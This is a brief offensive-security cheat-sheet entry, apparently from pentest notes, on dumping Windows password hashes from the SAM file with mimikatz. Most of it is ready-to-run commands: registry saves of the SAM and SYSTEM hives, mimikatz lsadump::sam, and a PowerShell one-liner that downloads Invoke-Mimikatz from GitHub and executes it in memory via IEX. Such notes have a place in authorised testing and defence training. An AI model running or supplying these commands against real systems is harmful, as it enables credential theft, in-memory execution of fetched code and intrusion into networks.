


hashes from SAM file
Prerequisites:• administrator
We
can use mimikatz dump the hashes from the SAM file, like we do with
smart_hashdump
of meterpreter.
Remember that pull hashes from the SAM file(file system's Registry) is safer than pulling
them from LSASS memory.
1. Before run mimikatz we have to save the SAM and SYSTEM file
PS> reg save hklm\system "$env:userprofile\desktop\SYSTEM"
PS> reg save hklm\sam "$env:userprofile\desktop\SAM"
2. Now from mimikatz
mimikatz# privilege::debug
mimikatz# lsadump::sam /sam:<SAM-file> /system:<SYSTEM-file>

One-liner
PS> reg save hklm\system "$env:userprofile\desktop\SYSTEM";reg save hklm\sam "$env:userprofile\desktop\SAM";IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 ");Invoke-Mimikatz -Command '"privilege::debug" "lsadump::sam /sam:%userprofile%\desktop\SAM /system:%userprofile%\desktop\SYSTEM"'
